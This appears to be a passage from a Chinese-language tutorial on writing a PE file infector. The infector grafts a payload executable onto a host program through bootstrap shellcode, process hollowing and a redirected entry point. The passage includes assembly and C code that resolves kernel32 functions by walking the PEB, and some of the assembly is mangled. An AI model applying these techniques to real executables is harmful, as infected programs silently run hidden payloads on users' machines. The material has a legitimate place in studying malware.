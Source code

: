 我们的目的是将一个可执行文件A合并到另一个可执行文件B中，具体方法是将一段引导型shellcode（bootstrap shellcode）与可执行载荷结合起来，感染可执行文件B。感染成功后，新的入口点会指向我们设定的引导代码，引导代码首先会使用进程Hollow技术以新进程方式运行载荷，然后跳转到原始入口点，执行原始程序。

成功感染可执行文件后，其文件结构如下所示：

[![](https://p2.ssl.qhimg.com/t016f98b746e20df7fd.png)](https://p2.ssl.qhimg.com/t016f98b746e20df7fd.png)

理想情况下，引导型shellcode可以填充到.text节（section）的代码洞（code cave）中，然而，实际情况中，shellcode的大小可能较大，此时我们可以将其作为一个新的节附加到PE文件中。



**三、Shellcode**

**3.1 开发要点**

在开发shellcode之前，有些要点需要引起我们的注意。最重要的一点就是实现代码的位置无关特性。如果shellcode需要依赖硬编码的位置，那么对于另一个可执行文件来说，相关环境会发生变化，导致shellcode无法成功运行。因此，我们不能依赖一个导入表来调用WinAPI函数，需要这些函数时，我们必须解决字符串问题。

**3.2 动态获取WinAPI函数**

根据Windows对可执行文件的处理方式，我们在内存中总能看到两个DLL文件的身影：**kernel32.dll**以及**ntdll.dll**。我们可以充分利用这个基础，获取由**WinAPI**提供的任何函数地址。在本文中，我们只需要使用这两个DLL文件导出的函数，因为这些函数足以满足我们的需求。

那么，我们如何才能做到这一点？最常见的方法是找到正在运行的程序的PEB结构，该结构的位置为**fs:30h**，然后我们就可以查找并遍历进程中的模块。比如，我们可以查找kernel32.dll和ntdll.dll的基地址。从这些基地址出发，我们可以像查找其他PE文件那样，解析模块的文件，遍历导出函数表，直到找到匹配结果。如果你想了解更详细的过程，你可以参考我写的[另一篇文章](https://0x00sec.org/t/understanding-a-win32-virus-background-material/1043)。实践是检验真理的唯一标准，上述过程的代码实现如下所示：



```
; get kernel32 base address
_get_kernel32:
moveax, [fs:0x30]
moveax, [eax + 0x0C]
moveax, [eax + 0x14]
moveax, [eax]
moveax, [eax]
moveax, [eax + 0x10]
ret
FARPROC GetKernel32Function(LPCSTR szFuncName) `{`
HMODULE hKernel32Mod = get_kernel32();
// get DOS header
PIMAGE_DOS_HEADER pidh = (PIMAGE_DOS_HEADER)(hKernel32Mod);
// get NT headers
PIMAGE_NT_HEADERS pinh = (PIMAGE_NT_HEADERS)((DWORD)hKernel32Mod + pidh-&gt;e_lfanew);
// find eat
PIMAGE_EXPORT_DIRECTORY pied = (PIMAGE_EXPORT_DIRECTORY)((DWORD)hKernel32Mod + pinh-&gt;OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
// find export table functions
LPDWORD dwAddresses = (LPDWORD)((DWORD)hKernel32Mod + pied-&gt;AddressOfFunctions);
LPDWORD dwNames = (LPDWORD)((DWORD)hKernel32Mod + pied-&gt;AddressOfNames);
LPWORD wOrdinals = (LPWORD)((DWORD)hKernel32Mod + pied-&gt;AddressOfNameOrdinals);
// loop through all names of functions
for (int i = 0; i &lt; pied-&gt;NumberOfNames; i++) `{`
LPSTR lpName = (LPSTR)((DWORD)hKernel32Mod + dwNames[i]);
if (!strcmp(szFuncName, lpName))
return (FARPROC)((DWORD)hKernel32Mod + dwAddresses[wOrdinals[i]]);
`}`
return NULL;
`}`
```
